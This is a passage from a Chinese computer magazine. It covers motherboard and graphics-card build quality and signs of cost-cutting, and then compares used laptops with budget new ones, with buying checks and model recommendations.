此外，与固态电容同时流行的还有封闭式电感。全封闭式电感可以大大降低电感的电磁辐射，不会给周围的电子元器件造成干扰。而一些半封闭或者完全裸露的电感则会出现电磁辐射和电子干扰信号的现象。客观而言，采用封闭式电感的重要性不如固态电容那么高，但是作为高端供电单元，封闭式电感总是与固态电容如影随形。

需要说明的是，一款主板在投入批量生产前都是经过了工程师们的严格测试的，其供电部分一般是能得到保证的，尤其是名牌主板。但是也不排除某些生产商为了降低成本，偷工减料，从中获取最大的利润，这样的产品质量就可想而知了。此外，绝对不能认为电子元件用料就是决定主板超频稳定性的主要因素，真正的关键因素还在于ICS频率发生器、北桥芯片版本与Stepping、整体电路设计等，其原因非常复杂。

##### 2. 固态供电并非CPU供电专用

有些主板虽然在CPU供电部分采用了固态电容，但是其它周边仍旧采用了普通电解电容，在强化了CPU供电滤波的同时，却忽视了包括外频超频/内存超频/显卡超频等因素。除了CPU供电，很多主板还对AGP/PCI Express显卡以及内存单独供电，这种设计的好处毋庸置疑。此时每个电源模块单独对相应元件进行电压过载保护，不会因为某个稳压器的故障使系统瘫痪，而且有利于减小公共阻抗的相互耦合及公共电源的相互耦合。

更重要的是，CPU总线上电压的变化不会影响内存和显卡的电压，有助于在超频时提高稳定性。在十分重要的内存供电部分，一般由扼流圈与MOSFET组成，但是不同的组成方式存在明显区别。然而非常遗憾的是，很多缩水主板并不会采用这样的供电方案，因此整体稳定性表现得并不理想。但是，我们已经能够在市场上找到一些采用全固态电容的主板，无论是CPU供电还是内存供电或是显卡供电，这种全固态电容设计都是值得肯定的，真正杜绝所有电子元件方面的超频瓶颈。如图10，全固态电容设计的高端主板。

##### 3. 主板布线才彰显实力

客观来说，采用封闭式电感以及固态电容并不能显现出主板厂商的实力，也不是决定超频表现的唯一要素。对于真正强大的主板而言，布线设计才是关键。布线设计对于整体稳定性有着较大的影响，而且很多主板超频不佳便是不合理的布线所导致。

按照常规设计理念，北桥芯片到CPU、内存、AGP/PCI Express槽的距离应该是相等的，这也就是所谓的“时钟线等长”。如果出现细微的差异，理论上会折损性能并且导致工作不稳定。主板上的布线设计是一门比较专业的学问，它要视不同的线路特性采用不同的设计处理方式。主板上采用的“蛇行布线”就很有讲究，有些消费者认为蛇行布线越多就说明有更高的设计水平，这种观点是错误的。采用蛇行布线的原因有两个：一个是为了保证布线线路的等长，这样某些线路需要以弯曲的方式走线以调节长度；另一个使用蛇行布线的常见原因为了尽可能减少电磁辐射对主板其余部件和人体的影响，因为高速而单调的数字信号会大大地干扰主板上模拟器件的工作。

采用蛇行布线有了上面这些好处，并不是说在主板布线设计的时候使用蛇行布线越多越好，因为过多过密的主板布线会造成主板布局的疏密不均，会对主板的质量有一定的影响。好的布线应使主板上各部分线路密度差别不大，并且要尽可能均匀分布，否则很容易造成主板的不稳定。平心而论，个人用户很难以专业的角度去评价主板布线，因为不同的芯片组配合不同的板载芯片，其布线方式都会发生改变，所以请不要对布线轻易地下定结论，厂商并不会通过这一方法来节省成本。

#### 五、主板缩水通常表现在哪些地方

对于一款主板而言，板载芯片（包括南北桥）大约占据总体成本的45%，剩下的便是电子元件成本和流通成本。相同的南北桥并不代表两款主板的成本完全相同，因此即便是处在如今的低价位主板时代，厂商依然有理由通过各种手段来“缩水”，以此达到节省成本的目的。对于消费者而言，首先要学会的便是了解“缩水主板”通常在哪些地方偷工减料，这样才能有的放矢地进行鉴别。

一般而言，劣质主板在PCB板上会出现种种瑕疵，这是因为原材料以及制作工艺设备上资金投入不足而造成的，其中以露铜现象最为明显。由于生产设备不良，PCB上的导线出现断裂现象，此时加工厂会以电解质溶液进行“补油”。毫无疑问，过多“补油”的主板势必会在走线上有痕迹，我们通过强光可看出不同的颜色。此外，各种电子元件的焊接工艺也值得关注。劣质主板往往焊接工艺较差，焊点不均匀，甚至留有毛刺。尽管焊接工艺对稳定性基本上不会有过大影响，但终究留下了隐患。

很多用户都碰到过无法点亮系统，然后重新插拔内存就能解决问题的故障。撇开内存条金手指质量不谈，很多这类蹊跷故障就是主板内存插槽质量或者工艺不良所导致的。更为恼人的是，这类故障不间断性地发生，而且很难维修。由于接插件品质低下，用户不得不忍受各种莫名其妙的故障。事实上，对于设计方方面面元件众多的主板而言，缩水的渠道还有很多，这都给用户的实际使用带来诸多不便。

| 缩水类型 | 危害程度 | 常见程度 | 产生故障类型 |
| :--- | :--- | :--- | :--- |
| 劣质PCB | ★★★★☆ | ★★★☆ | 长期使用后发生电路性故障 |
| 劣质接插件 | ★★★★☆ | ★★★★★ | 各种接触不良的故障 |
| 电容容量缩水 | ★★★☆ | ★★★☆ | 电容爆浆 |
| 供电电路缩水 | ★★★☆ | ★★★★☆ | 频繁死机 |
| 电阻用料缩水 | ★★☆ | ★★★★★★☆ | 高频运行稳定性较差 |

#### 六、主板缩水各种把戏揭秘

##### 1. 单独供电缩水

除了CPU供电，很多主板还对PCI Express显卡以及内存单独供电，这种设计的好处毋庸置疑。此时每个电源模块单独对相应元件进行电压过载保护，不会因为某个稳压器的故障使系统瘫痪。此外有利于减小公共阻抗的相互耦合及公共电源的相互耦合，大大提高供电系统的可靠性，也有助于电源的散热。更为重要的是，CPU总线上电压的变化不会影响内存和显卡的电压，有助于在超频时提高稳定性。在十分重要的内存供电部分，一般由扼流圈与MOSFET组成，但是不同的组成方式存在明显区别。然而非常遗憾的是，很多缩水主板并不会采用这样的供电方案，因此整体稳定性表现得并不理想。

内存有3.3V的I/O电压和2.5V核心电压（DDR2也有这两组电压），最理想的状态下需要两组供电，因此直接使用两组扼流圈与MOSFET是最佳方案。不过有些主板仅仅是用扼流圈与MOSFET提供2.5V核心电压，甚至还舍去扼流圈，3.3V的I/O电压转接由电源提供，此时稳定性就大打折扣。如果缩水主板电路设计理想并且电源质量较好还问题不大，但是只要稍有闪失就容易带来各种意想不到的故障。

##### 2. 接插件质量与工艺缩水

很多缩水主板使用普通甚至劣质接插件，接触不良的概率大；而品牌主板使用优质接插件，接插紧固度远高于普通产品。根据主板厂商的统计，大约有65%以上的主板故障都是由于接插件问题引起的，而真正的芯片损坏或者电子元件损坏并不是最主要的损坏原因。如图11，接插件质量不容忽视。

接插件的好坏一般是看主板生产厂商采用什么牌子的接插件，采用LOTES、FOXCONN、TEKCON与AMP等世界著名的主板接插件供应商供应的接插件，质量上明显要好得多。而质量差的接插件出现接触不良、弹性变弱、变形等后果，尤其经不起多次插拔。而对于像CPU脚座、PCI Express插槽、DIMM内存插槽这些如此重要的接插件来说，哪怕在接触方面出现轻微的问题就有可能导致系统的不稳定，甚至点不亮机。

低价位缩水主板在这方面节省成本可谓司空见惯，而这也给用户带来很多不便。除此之外，按照已经不算是最新标准的PC99主板规范给接口以及各种插槽使用不同颜色也是最基本的要求，这几乎不会增加额外的成本，但是市场上少数低价位缩水主板因为采用库存接插件而无法做到这一点。

##### 3. 电阻元件与工艺缩水

很多消费者都知道主板存在很多“空焊”是偷工减料的迹象，但是所谓的“空焊”并不是指最显而易见的板载芯片空缺，因为这对于一般面向中低端市场的主板而言无可厚非，更不会影响稳定性，仅仅是减少部分功能而已。但是如果发现电阻的位置存在大量空焊现象，那么大家可就得留心了。判断电阻用料是否十足并非仅仅查看贴片电阻的数量，以现今的工艺和成本，做到这一步一点也不难，也不会花去多少成本，真正的关键在于Poly Fuse压敏电阻。

这种压敏电阻的主要作用便是提供过压保护。只要在其通路范围内的元件工作在正常范围内，其阻值不会变化。但是一旦通路内电流发生变化或者电压剧烈波动，该压敏电阻立即大幅度调整阻值，从而第一时间保护重要的电子元件和芯片。事实上，这种电阻的工作方式很像我们常见的保险丝，只不过它更为精密。主板上的Poly Fuse压敏电阻一般为绿色、红色或者黄色的贴片小元件，但是由于其成本不低而且要求较高的贴片工艺与设备，因此在不少低价位主板中几乎绝迹。我们并不能说没有这种Poly Fuse压敏电阻的主板就一定不安全，但至少这令缩水主板失去如今非常实用的保护功能。

#### 七、应用型附加功能：不为人关注的小芯片

如果仔细观察一下主板，大家会发现其实真正吸引人的不仅仅是南北桥和大型板载芯片，一些体积并不大的小体积芯片也同样很值得关注。对于关注主板实际应用效果的用户而言，除了电容和MOS管，诸如I/O控制芯片、时钟频率发生器和电源管理芯片也是不可忽视的环节。

##### 1. I/O控制芯片

I/O控制芯片就是输入输出管理芯片，顾名思义它负责对系统所有的输入输出设备进行管理，并口、串口、软驱、PS/2等接口都通过I/O控制芯片来实现。此外，如今的I/O控制芯片往往还具备CPU过电压保护、风扇转速监测、5V/12V电压监测等硬件监控功能。目前主流主板所采用的I/O控制芯片以ITE或者Winbond的产品为主。一般而言，一种规格的I/O控制芯片总是与一种芯片组配合使用，如W83627THF I/O控制芯片就通常与Intel芯片组配合。此外，在VIA 686A/B南桥时代，I/O控制芯片甚至被整合进南桥芯片，不过这种做法并没有得到延续，如今主流南桥芯片都采用额外的I/O控制芯片，以便腾出空间，集成更为重要与复杂的功能。如图12，W83627THF I/O控制芯片。

##### 2. 时钟频率发生器

电脑要进行正确的数据传送以及正常的运行，没有时钟信号是不行的。时钟信号在电路中的主要作用就是同步，因为在数据传送过程中，对时序都有着严格的要求，只有这样才能保证数据在传输过程不出差错。时钟信号首先设定了一个基准，我们可以用它来确定其它信号的宽度，另外时钟信号能够保证收发数据双方的同步。主板上的时钟频率发生器可以给出CPU的外频频率，而倍频由CPU自身的电路决定。ICS D80A是目前普遍采用的时钟频率发生器，更高端的超频主板则使用Cypress CY28551。如图13，ICS D80A时钟频率发生器。

随着CPU外频的提高，时钟频率发生器也在不断升级。老主板往往无法支持最新的CPU，其中很关键的原因便是时钟频率发生器不能给出更高的外频频率。此外，时钟频率发生器还配合晶振负责对AGP/PCI/PCI Express进行分频。有些时钟频率发生器虽然能够支持很高的外频频率，但是由于无法支持更高的分频倍率而导致CPU在超频时PCI频率过高，系统无法正常运转。如图14，专为超频设计的Cypress CY28551。

##### 3. 电源管理芯片

传统主板的电源管理芯片都集成于南桥芯片，但是其效果并不很好，无法做到大幅度节省电能。此外，在实现STR休眠功能时，各种兼容性问题也令人头痛不已。为此，Winbond开发了W83301R电源管理芯片。W83301R可以同时支持DRAM内存的深层次休眠，目前主要有升技、磐正等主板所采用。其它一些常见的电源管理芯片有Realteck RT9237、HIP6302等。

#### 八、决定画质的因素：显卡做工

有时候名厂的显卡在性能上与一些杂牌品相比并没有什么很大的优势，但是就是价格高很多，排除品牌的因素，在元件用料方面，名厂的显卡还是颇有一番功夫，而且这对于画质以及稳定性是大有裨益的。

##### 1. 供电部分

显卡的超频能力、运行时的稳定，这些都与供电部分息息相关。供电部分的器件主要由电源调节器，滤波电容，扼流线圈等构成。如下图我们给大家展示的就是多端稳压IC芯片，这种方式有不少优点，其效果比早先的稳压芯片好很多，而且成本也不高。不过这也算不上如今的先进技术，因为现在很多中高档显卡都采用了这种方式，而更加出色的解决方案是MOS电源供应管，它可以智能化地控制电流强度并提高调压效率。

电容对于提高的显卡的稳定性也极有好处，它是除稳压芯片以外的第二道闸口。按照类型来区分，电容主要有普通电解电容、金属外壳电容与钽电容。尽管普通电解电容的效果也不错，但是其稳定性相对差一些，容易被强电流击穿，而金属外壳电容则要好得多。至于钽电容，它可是电容中的极品，由于成本较高，一般不会大规模使用。如图15，成本较高但品质不俗的钽电容。

要求厂商完全使用高品质的钽电容是不现实也是不合理的。一方面钽电容的成本很高，另一方面也完全没有这个必要。显卡上的有些地方只需要很普通的电解电容即可胜任，此时就应该根据实际情况来选择。当然，如果一块显卡大量使用劣质的普通电解电容也是不可取的。合理的结合使用才是最明智的做法，这样既可以保证产品的品质，又能使价格不至于大幅度上升，保护产品的市场竞争力。

##### 2. PCB线路板与金手指

PCB线路板的质量对显卡的电气性能有很大影响。在最新的GeForce 8800中，NVIDIA甚至要求所有的厂商都选用8层的优质PCB板，只有这样才能保证核心的稳定运行。对于其它显卡，使用6层PCB或者4层PCB都是可以的，但是可以肯定的是，具有6层PCB板的显卡在稳定性方面要优于那些使用4层PCB板的同类产品。当然，对于某些实力强大的板卡生产商，他们使用4层PCB板就能够获得等效于其它厂商6层PCB的稳定性，这就要另当别论了。金手指也是决定显卡电气性能的部位，但是金手指的技术含量并不高，其成本也不大。一般而言，只要金手指看上去光滑并且没有剥落，那么就基本符合要求。

##### 3. 散热措施

当前的主流显卡个个都是发热大户，显示核心的发热量是所有元件中最高的。为了让显示核心能与散热片充分接触，形成高效率的热交换，使用导热硅脂是必需的。设计优秀的产品在这方面往往做得更加地道，它们将导热硅脂均匀地平铺并把显示核心与散热片之间的缝隙完全塞满。当然，仅有散热片还是远远不够的，我们还需要风扇将源源不断的热量带走。其实要制作大功率的风扇并非难事，但是功率一大势必造成大量的噪音，让用户非常反感。这需要大家权衡利弊。此外，目前不少显卡还为显存安装了散热片，这对于稳定显卡工作有一定好处，也有利于超频。如图16，散热与静音兼备的热管散热器。

##### 4. 低通滤波电路与2D画质

说到2D画质，或许很多用户都会首推Matrox的产品。诚然，Matrox系列确实拥有令人满意的2D画质，但是与其它普通产品相比，Matrox似乎并没有太多的神奇之处。事实上，决定显卡2D画质的绝不仅仅是核心芯片，最主要的还是显卡的低通滤波线路设计。大家仔细地观察显卡，在视频输出接口的后面，我们就可以看到密集的元件组成了低通滤波电路。由于显卡的模拟信号非常容易受到干扰，一般显卡大厂在这个线路上都下足了工夫，包括用料做工和设计都有很好的考虑。

低通滤波电路通常位于显卡D-SUB模拟输出接口的背后，由一些体积很小的黑色和白色贴片元件组成，现在的显卡都配备标准3头输出，所以低通电路不仅仅存在于模拟输出D-SUB接口处，在S-Video和DVI背后一般也会存在，如图17，优秀的低通滤波电路。

尽管DVI本身是数字式的信号输出，但是也离不开出色的低通电路，毕竟大部分显卡的DVI输出接口中不仅仅包含数字信号，还会包含有一组模拟信号，可以使用DVI转D-SUB转接头提取出这组模拟信号，从而实现双模拟显示器支持。这组模拟信号当然也需要低通滤波电路，所以完整的显卡会在卡的3个输出接口处配备完整的低通电路，而不是仅存在于D-SUB接口处。检查低通滤波电路主要还是看空焊是否过多，此外少数显卡将低通滤波电路放置在显卡背面，此时也不要冤枉厂商哦。

##### 5. 我不是缩水货：为“刀版”显卡正名

在主板领域，采用MicroATX架构的产品并不会遭到排挤，然而非常奇怪的是，采用“刀板”设计的显卡就注定遭受非议。事实上，我们并不能认为小板型就不好，而是如果强行采用所谓的“非公版”设计，在小板型上配备GDDR3显存，那么很可能无法达到较高的频率。举例而言，2.0ns的GDDR3显存应该能够达到1GHz，但是由于小板型PCB电气性能的问题，很可能在900MHz时就已经力不从心了。不过即便如此，小板型也不等于不稳定，只不过超频能力逊色一些而已。

事实上，真正值得大家关注的是显卡的低通滤波部分是否完整。对于“刀板”显卡而言，的确有部分产品因为控制成本而简化了低通滤波，此时对于2D画质的损失比较明显。但是只要厂商用心地设计加工，那么“刀板”显卡也完全可以有令人满意的表现。此外，电容对于提高的显卡的稳定性也极有好处，它是除稳压芯片以外的第二道闸口。按照类型来区分，电容主要有普通电解电容、金属外壳电容与钽电容。尽管普通电解电容的效果也不错，但是其稳定性相对差一些，容易被强电流击穿，而金属外壳电容则要好得多。至于钽电容，它可是电容中的极品，由于成本较高，一般不会大规模使用。如图18，做工还不错的“刀板”显卡。

要求厂商完全使用高品质的钽电容是不现实也是不合理的。一方面钽电容的成本很高，另一方面也完全没有这个必要。显卡上的有些地方只需要很普通的电解电容即可胜任，此时就应该根据实际情况来选择。当然，如果一块“刀板”显卡大量使用劣质的普通电解电容也是不可取的。合理的结合使用才是最明智的做法，这样既可以保证产品的品质，又能使价格不至于大幅度上升，保护产品的市场竞争力。

##### 写在最后

很多用户都明白芯片组或是GPU基本决定了一款主板与显卡的性能表现，但是这并非是全部。附加功能、超频性能、稳定性表现，这些都是广大消费者十分看重的内容。毫无疑问，决定这些表现的因素将是板卡的做工以及包括电子元件和板载芯片的用料。因此，我们建议大家在选购产品时更多地关注这些细节，而并非一味地批评测试软件得分，毕竟稳定性才是最重要的。

### 性价比对决：二手笔记本与低价位本本全面碰撞
◆文/方成亮

在二手笔记本市场中，出色的性价比一直受到不少用户的追捧，甚至已经形成完善的产业链，涉及翻新处理和售后服务等环节。但是，原本二手市场和主流市场井水不犯河水的局面已经被部分厂商频繁推出的低价位产品所打破。对于消费者而言，在3000～5000元预算中，究竟购买二手笔记本还是低价位的全新本本，这已经是很多人十分关心并热衷讨论的话题。

#### 一、走出品牌价值的误区：国产品牌vs国际品牌

在品牌机领域，国际品牌一直难以表现出较强的竞争力，因为有着一定价格优势的国产品牌机在性能和稳定性方面丝毫不逊于国际竞争对手。久而久之，国际品牌也开始对家用和商用品品牌机展开价格攻势，如今已经和国内品牌同等级竞争。但是，在笔记本领域，情况远不是如此。消费者的陌生以及认识上的误区使情况变得千差万别。

##### 1. 二手名牌：代工之路同出一辙

之所以选择二手笔记本，很多用户就是冲着品牌名气而去。但是，我们并不用回避这样一个现状：即便是消费者耳熟能详的IBM、东芝、惠普等品牌也大量采用代工方式，这和部分国产笔记本在本质上并没有明显的区别。尽管代工并不意味着没有自主设计成分，但是同质化的趋势却是不可改变的。

对于移动处理器、主板芯片组、移动图形芯片等，我们并不苛求笔记本厂商能够做到“原创”。然而，真正的核心技术应该至少包括精密结构设计技术、散热技术、电子技术、EMI技术、电源管理技术、底层软件以及应用软件开发等核心技术，甚至涵盖从设计、论证、研发、制造、测试等一整套步骤，从而掌握了包括精密模具、主动散热、长效电池和底层操作系统在内的多项关键技术。如图1，走向代工之路的国际一线品牌。



图1

毫无疑问，几年前真正能够做到这些的国内笔记本厂商凤毛麟角，但是在结合代工方式进行自身技术改进之后，国产品牌的进步也相当明显。平心而论，目前大家关注的二手笔记本主要是2003～2005年的主流，当时国产笔记本的确在综合表现方面难以企及国际品牌，进入二手市场后也缺乏竞争力。但是，如今的主流低价位国产笔记本并不存在与国际品牌之间的巨大差距，因此再抱着这样的传统观念显然是不明智的。

##### 2. 理智看待国产品牌

事实上，所谓的品牌价值需要在长期运营中进行积累，国产笔记本品牌没有经历过岁月的沉积，因此不少用户对国产笔记本品牌价值总是心存芥蒂也是无可厚非的现实情况。然而问题的关键在于，国产品牌何时能够改变现状。从品牌宣传到产品设计，真正能够与国际品牌抗衡的国内厂商屈指可数，更多的是在价格上大做文章，而这无异于抹煞自身的品牌价值。纵观目前6000元以下的低价位全新笔记本，国产产品占据了绝大多数份额，仅有的几个国际品牌也仅仅是DELL等品牌形象一般的厂商。

二手笔记本市场应当是最能反应出品牌价值的，因为此时产品的使用价值已经大打折扣，在消费者的价值评判中，品牌价值占了很大的比重。令人感到尴尬的是，IBM、Compaq、Toshiba、SONY等国际品牌始终是抢手货，商家更加愿意选择这类品牌的产品进行翻修，而消费者也对此趋之若鹜，国产品牌始终处于冷门状态。但是，在主流市场中，国产品牌不应当受到非理性的歧视。目前，很多消费者依然对国产品牌抱着一种偏见，在并未实际接触过产品之前就武断地认为低价位国产本本存在诸多不足。作为理性的消费者，应当解除这些偏见，更没有必要迷信国际品牌。不同时代的工艺与品质控制各不相同，品牌定位并不能完全决定产品品质。从二手近期市场情况来看，不少二手Pentium4-M本本甚至卖到4000元左右，而消费者的趋之若鹜更是让推行4000元价位产品的厂商无可奈何。如图2，国产品牌本本的迅速崛起。



图2

#### 二、低价位的元素：独立显卡的取舍

对于选择3000～5000元左右价位的主流笔记本而言，想拥有一块独立显卡是比较困难的事情。为此，不少用户宁可选择相同价位上配备独立显卡的本本，这样便可以获得更加出色的3D性能。但是，这样做是否值得，这就需要大家好好权衡考虑了，而不是否定集成显卡，或是迷信独立显卡。

一般而言，我们可以将游戏分为三类：不涉及大量3D加速的网络游戏和模拟器游戏，以《魔兽争霸3》和《反恐精英》为代表的老一代3D游戏，以《使命召唤》和《极品飞车》为代表的新生代3D游戏。凭借915GM或是954GM以及ATI Xpress 200等整合芯片组，应付前两类游戏已经绰绰有余，只不过在面对一些最新3D游戏时有些力不从心。如图3，采用集成显卡的迅驰3本本。



而那些二手市场迅驰1平台的独立显卡笔记本则表现更加全面，很多配备Mobility Radeon 9700或是GeForce 6200系列移动显卡的产品都展现出令人满意的画质与流畅度。为此，我们建议大家在做出选择之前好好考虑一下自己的实际情况，而不要简单地认为集成显卡就是与3D游戏无缘，也不要片面地认为强大的CPU就能摆脱对显卡的依赖。如图4，二手独立显卡本本常见搭配的Mobility Radeon 9700。



当然，如果是4000元以下的Pentium4-M笔记本，那么就得客观看待独立显卡的实际表现了。这类二手笔记本一般搭配Mobility Radeon 7500或是Mobility Radeon 9000，此时综合表现只是略微比当前的主流产品集成显卡好一些，甚至Mobility Radeon 7500还无法支持Pixel Shader和Vertex Shader，这种独立显卡并不能很好地适应当前主流3D游戏的需求。

因此，我们建议大家根据自己的实际情况来选择。如果非常看重3D性能，那么低价位的主流市场并没有太多的理想之选，二手市场搭配Mobility Radeon 9700或者GeForce 6200系列移动显卡的产品值得推荐。假如并不需要非常强大的3D性能，以上网和日常办公为主，那么绝对没有必要盲目地拒绝集成显卡本本。

#### 三、撇开技术指标：如何真正评测稳定性

笔记本的稳定性是很多消费者所非常看重的，因此在选择低价位主流本本与二手名牌本本时，很多人都产生了犹豫。一方面，二手产品的品质表现受到一些质疑；另一方面，主流低价位产品的“缩水”疑问也从未终止过。

##### 1. 低价位本本：超值还是缩水？

对于大多数消费者而言，往往希望在价格和性能上找到一个最佳结合点，也就是人们经常提到的“性价比”。然而究竟如何正确理解性价比却是一个需要进一步思考的问题。电子产品都有一个共性，那就是降价是永远的主旋律。但降价的原因却不尽相同，正常的降价大致可以分为两类：技术成熟后令成本降低并且生产规模扩大，此时致使最终售价降低。例如，Intel每几个月就会宣布降低其处理器的价格，从而带来笔记本电脑的价格下调，这便是技术成熟的表现。然而，并不是每个笔记本厂商都能按捺住技术成熟的降价周期，有些厂商的降价也并不是由于规模生产所带来的成本优势，而是出于抢占市场份额甚至打压竞争对手的目的。如图5，降价并非“缩水”，而是厂商的市场策略。


事实上，降价永远是消费者最为欢迎的，但是问题关键在于不能通过质量缩水来实现所谓的低价格，因为这与我们追求性价比的原则格格不入。令人欣慰的是，尽管目前也有少数三线中小品牌存在低价位产品滥竽充数，甚至将台式机配件改造为笔记本的现象，但是大多数国内外知名品牌还是将品牌形象放在第一位，此时的降价多数通过降低配置来实现，因此带给消费者更高的性价比。以目前3999元价位的多款产品来看，1MB缓存的Celeron M异动处理器、I910GML整合主板、256MB内存、40GB硬盘、宽屏LCD，这几乎成为公式化的配置，而重量也大多控制在2.0~2.4公斤。客观而言，这类配置已经性价比不错，部分采用“AMD+ATI”平台的本本甚至有着更好的综合性能。作为几大知名品牌，厂商所采用的流水线工艺以及品控都完全值得让人放心。如图6，AMD移动平台的高性价比让低价位市场有更多的选择。



##### 2. 聪明采购：哪种货源渠道的二手本本值得选择

目前二手笔记本的货源主要有三个：首先是本地的一些消费者或者企事业单位淘汰下来的产品；其次是国外一些大公司的淘汰产品通过走私等途径入境；第三种是拼装货或者沿海一带地下工厂的翻新产品。第二和第三种货源是目前二手笔记本市场上的主要来源，大多是国外的一些大公司正常更新换代时淘汰下来的，而且其中不乏名牌产品，所以质量过硬并且价格低廉。第三种货源占据二手市场最大份额，商家将各种零配件拼装在一起，具有更为明显的价格优势，有时甚至能够提供相当不错的外观。如图7，体系化的二手本本市场。



其实我们并不用回避这一事实，很多二手笔记本在报关进口之前简直可以用“电子垃圾”来形容，或是液晶屏碎裂，或是硬盘带有大量坏道，又或是CPU已经烧毁。再加上运输以及装卸过程中的暴力操作，其破坏程度可想而知。但是这并不能让我们对其一概否认，毕竟很多产品经过维修与翻新之后完全可以正常使用，况且价格还是很具吸引力。然而问题的关键在于二手经销商是否进行严格的筛选，然后使用合格的配件在技术条件较好的前提下进行修复与拼装工作。因此，对于准备购买二手本本的消费者而言，选择一家口碑好的商家十分关键。

#### 四、购入本本LCD表现

无论是购买二手本本，还是主流市场的低价位产品，在付款之前进行全面的配件检测是很有必要的。针对二手市场以及低价位主流市场的特点，我们的检测过程也应该有针对性。

##### 1. 检查液晶显示屏

液晶显示屏是笔记本电脑配件中最昂贵的部件，占整台机器成本的20~35%，因此选购时应该特别注意屏幕有无损伤的痕迹，因为有痕迹的机器长时间使用时，光的折射会严重损伤人的视力，一不小心搬回一个影响视力的机器就太不值得了。最后还要注意液晶屏幕是否有坏点，此时可以用不同的背景色进行检验。如果购买二手笔记本，那么还得仔细鉴别其屏幕灯管是否严重老化。部分产品在使用几年之后存在亮度下降严重以及屏幕发黄等状况，此时就得谨慎购买了。

##### 2. 检查笔记本部件与接口

二手商家关于笔记本的硬件配置说明不可完全相信，更不能简单查看Windows的系统属性，因为这完全可以通过修改注册表来蒙混过关。建议大家使用EverestPro来全面检验，此时可以显示包括CPU、内存、硬盘、显卡等主要部件的详细参数。至于整体运作的稳定性，Prime95与SuperPi都是考验系统稳定性的优秀软件，尽管它们多数被用来测试CPU，但是可以同样适用于检测内存的稳定性，只是我们将问题的焦点集中于能否顺利通过测试，而非注重最后的测试成绩。最后，建议大家使用HDD Tune软件检验硬盘是否存在物理坏道。如图8，使用EverestPro全面检验笔记本。



选购二手笔记本时辨别电池性能十分重要，但是由于电池性能是一个相对主观的指标，因此很难使用快速的方法进行判断，这里我们推荐大家使用Battery Mark这款业界公认的权威测试软件。在Battery Mark电池测试中，分为Conditioning以及Life Test。其中Life Test测试所得到的结果基本上是平时常规使用下的电池工作时间。接口是否完好也是需要大家仔细测试的内容，建议仔细查看USB、并口串口、PS/2接口、红外线接口、IEEE1394等是否正常工作。此时，还要查看电池、键盘、鼠标、光驱、软驱、调制解调器等是否存在故障，因为这些功能的完好与否都与二手产品的价值休戚相关。

##### 3. 不可忽视的电源适配器

在笔记本电脑中，电源适配器的功能是把220V的交流电转换成低压直流电，为日常工作提供能源。无论是二手笔记本还是全新行货，大家在购买时都必须注意电源是否为原装，谨防被商家“掉包”。市场上的大量假冒电源适配器多数是不法厂商制造，这些假冒电源适配器的内部电路偷工减料，如换用功率较小、成本低廉的开关管，把滤波电容的容量减小，及采用性能较差的阻容元件等，其整体做工不精细，内部电路焊接也很粗糙。因为内部用料不到位，有的电源适配器在使用一段时间后，外壳就会因内部过热而起泡。如果继续使用，轻则会因供电不稳定而引起液晶屏闪动，重则将烧坏笔记本电脑。假冒电源适配器主要有IBM、NEC、HP、东芝等品牌，尤其以IBM仿制品最为猖獗。其实鉴别笔记本电源质量并不困难，大家可以把电源适配器接在笔记本电脑上，然后把显示屏的亮度开到最大，最好让笔记本电脑处于电池充电状态。当用笔记本电脑玩一些3D游戏或用光驱播放DVD影碟，也可以让笔记本电脑处于CPU占有率较高的查杀病毒状态，这样一来，笔记本电脑可以说是工作于最大功耗状态。持续工作几十分钟乃至一个小时，如果用手触摸电源适配器外壳感觉只是温热的，那说明该电源适配器质量不错；反之，如果感到电源适配器非常热甚至发烫，那就得仔细掂量了。

#### 五、产品推荐

##### 主流低价位本本

- (1) 联想旭日125，如图9
  虽然目前3999元的笔记本也层出不穷，但是从品牌的角度来看，基本上都是一些国内二线甚至三线厂商为主。像联想这样的国际品牌，3999元的旭日125无疑会进一步地巩固联想在中低价位市场的地位。旭日125采用1.5GHz主频的赛扬M370处理器和Intel 910GML整合芯片组，能够基本满足各种办公需求，而且14英寸XGA显示屏的画质表现也非常不错。旭日150在研发过程中对中低端笔记本产品的消费者进行调查后得知，因外壳划痕、划伤而表示不满的用户占有很高的比例，因此在外观材质选择方面就要进行严格控制，耐用性上也得到了加强。
  
  参考价格：3999元
  推荐理由：综合性价比出色，稳定性理想

- (2) DELL Inspiron 1300-n，如图10
  面对联想的降价举动，DELL也开始发力。Inspiron 1300-n在配置上有一定的优势，Pentium M 735配合915GM芯片组以及512MB DDR2内存的组合非常强悍，只是略显呆板的外观令其市场追捧程度并不高。不过值得一提的是，Inspiron 1300-n配备的COMBO驱动器、MiniPCI无线网卡以及5400RPM高转速硬盘，在众多同价位产品中比较突出。
  参考价格：4499元
  推荐理由：配置出色，没有明显的性能瓶颈

##### 经典超值二手本本

- (3) Acer Aspire 3045NLC，如图11
  这款本本采用非Intel迅驰平台，而且性能表现可圈可点。2.0GHz主频的AMD Sempron 3300+移动处理器搭配X1300独立显卡，配备64MB独立显存，其3D效果自然是出类拔萃。不过略微有些遗憾的是，Acer Aspire 3045NLC的60GB硬盘只有4200RPM，而且标配256MB内存有些偏小，需要用户后期扩充。此外，Acer Aspire 3045NLC采用标准的15英寸标屏，因此很适合玩3D游戏。
  
  参考价格：3100元

- (4) IBM ThinkPad T40，如图12
  作为第一代迅驰笔记本，ThinkPad T40采用1MB二级缓存的Pentium M处理器，配合855PM芯片组以及Mobility Radeon 7500独立显卡。虽说3D性能算不上出色，但是迅驰平台的整体性能还是非常有保障，足够满足日常办公和上网需求，而且出色的稳定性以及后期维修中丰富的配件采购渠道使之成为二手市场的香饽饽。
  
  参考价格：2900元

- (5) COMPAQ Evo N620C，如图13
  N620C是第一代迅驰本本，不过其模具和经典的N610C P4-M本本相同，因此便携性方面表现得比较一般。从配置来看，使用1MB缓存的Pentium M 1.4G性能不错，再加上Mobility Radeon 7500显卡，应该整体表现甚至比典型的Celeron M加上GMA900集成显卡更好一些。此外，N620C的稳定性表现非常不错，整机的工业设计走商务路线，比较适合男性用户。
  
  参考价格：2600元

- (6) IBM T30，如图14
  IBM T30可谓是P4-M时代的典型代表作，基本配置为P4-M 1.6GHz、256MB内存、30GB硬盘、8X DVD光驱以及16MB显存的Mobility Radeon 7500。T30的性能表现令人较为满意，而且14.1英寸的LCD具有很好的显示效果，整体实用性可谓十分出色。难能可贵的是，T30将重量控制在2.2kg，不过厚度还是较大，这也是P4-M笔记本的通病。对于消费者而言，选购二手T30应该注意商家是否用桌面版P4替换移动版P4-M。
  
  参考价格：4699元

### 计算机静音、散热方法全攻略
